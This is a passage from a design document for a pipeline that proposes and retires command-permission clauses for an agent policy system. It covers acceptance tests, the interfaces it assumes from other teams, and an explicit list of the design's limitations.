16. **Net-delta reporting.** `report.md` line 1 matches `/^clauses: \+\d+ −\d+ = net [+−]\d+/`.
17. **Ceiling.** At `T >= max_clauses` with an empty retirement backlog, additions land in `held/` with a reason and none are emitted.
18. **Lint exposure floor.** A 60-day window with <200 decisions proposes zero uncited retirements.
19. **Subsumption.** Two clauses where A ⊂ B with the same light → exactly one retirement proposal, for A.
20. **Conflict detection.** Intersecting patterns with different lights produce a must-fix report entry and no retirement.
21. **Lock.** Two concurrent `ingest` runs: one completes, one exits cleanly (non-zero, no partial state). `state.json` is never observed half-written.
22. **Caps.** `max_runtime` exceeded → clean exit `3`, checkpointed offset, next run resumes and completes.
23. **Override detection.** Synthetic records with `override.kind == 'contradicted'` + `rule_id` from 2 distinct users produce exactly one `supersedes:` proposal naming that rule.
24. **Partial-record tolerance.** A record file missing newer fields (`session_name`, `host`, `events`) is read through `recordFrom()` and produces the same detector output as a complete one — no crash, no silent skip.
25. **No-call degradation.** Records with `call == null` produce gap *counts* and zero clause candidates — never a candidate reconstructed from `agent_intent` prose.
26. **ADD-only.** No run ever modifies a file with `status: accepted`. Filesystem-level assertion.

---

## 17. Interfaces I am assuming (owned by others)

- **Validation/replay gate.** I hand it a directory of `status: proposed` clause files plus `evidence.json`. It owns accept/reject/promote-to-audit, and it owns `covers()`-based replay. I assume it reads `suggest_status: audit` as a hint, and that a rejection writes back something I can turn into `suppressed.json` — a `declined` clause file or a small `declined.json`. **If it writes nothing back, the pipeline will re-propose rejected candidates forever.** That callback is a hard requirement.
- **Review/PR UX.** Not mine. I assume proposals live in a git-tracked directory and land in a PR touching only `pipeline/proposals/**`.
- **Compiler / revision pinning.** I read the compiled artifact to answer "which clause would have matched". I assume it exposes a matcher I can call offline against a historical record, and that the artifact records its revision id so evidence can name it.
- **Matcher.** §6's per-segment guarantee is a requirement *on the matcher*, not something the pipeline can enforce. If the matcher matches against the raw command line, invariant 9 fails and green clauses become exploitable.
- **`src/policy/{generalise,shell}.ts`** are on an unmerged branch; §6 states the signatures I need.
- **`src/supervisor/store.ts`** — I need `withSessionLock` to accept a reserved non-session id (`'pipeline'`), and the records dir to stay append-only-per-file so byte offsets remain valid. If a file is ever rewritten in place, my content hash catches it and forces a re-read of that file, so this is a performance assumption, not a correctness one.

---

## 18. Limitations

- **Reddit was unreachable from this machine (403 via every route).** No community thread informed this design. The failure-mode evidence (+226% growth, +4.9 instructions/commit, 68% instruction-following at 500 instructions, >20% inference cost for context files) comes from papers and archived vendor docs.
- **The record does not yet contain the tool call (§3.0).** Until that lands, most of this pipeline cannot be built. I rated it above the override change on discovery; the brief assumed it existed.
- Cost and volume figures in §11 are rough sizing, not measurements.
- The `immediate_retry` override heuristic will have false positives (an agent retrying with a genuinely different intent). It is deliberately biased toward the *human-visible* signals; `escalation_response` is the trustworthy one.
- Transcript mining is specified but weakly: the schema is unstable, so v1 opt-in support may be limited to `SessionEnd.transcript_path` existence plus a version-pinned shape extractor that fails closed.
- Nothing here validates a clause. Every number in a proposal is historical support, not a guarantee. That is why `audit` status exists.
